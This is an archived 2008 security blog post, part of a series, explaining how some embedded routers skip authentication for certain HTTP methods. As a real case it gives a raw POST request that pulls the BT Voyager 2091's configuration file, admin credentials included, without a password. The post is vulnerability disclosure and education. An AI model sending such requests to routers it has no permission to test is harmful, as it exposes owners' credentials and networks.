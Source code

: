 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 3)
author: adrian-pastor
date: Sat, 16 Feb 2008 08:08:17 GMT
template: this/views/post.jade
---
```


We move on with the 3rd kind of authentication bypass bug. You may want to familiarize yourself with the previous two entries [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-1) and [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-2), before you continue.

## Unchecked HTTP methods

A device that is vulnerable to this issue, only performs an authentication check (i.e.: is the password being submitted with a request via basic authentication?) when the request is performed using a certain HTTP method. For instance, most devices have a feature to backup the config file which contains all the configuration settings including admin credentials. Let's say that when the admin user clicks on the "backup configuration" button, a GET request such as the following is submitted by the browser:

```http
GET /settings.cfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-GB; rv:1.8.1.11) Gecko/20071127 Firefox/2.0.0.11
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: Keep-Alive
Referer: http://192.168.1.1/router-settings/
Authorization: Basic YWRtaW46cGFzc3cwcmQ=
```

However, the logic of the device is flawed and allows attackers to save the config file without a password by changing the HTTP method from GET to POST. This very same vulnerability is [present](http://www.securityfocus.com/archive/1/440405) on the BT Voyager 2091 Wireless ADSL router which allows attackers to save the config file without providing username/password:

```http
POST /psiBackupInfo HTTP/1.1
Host: 192.168.1.1
Connection: close
Content-Length: 0
```
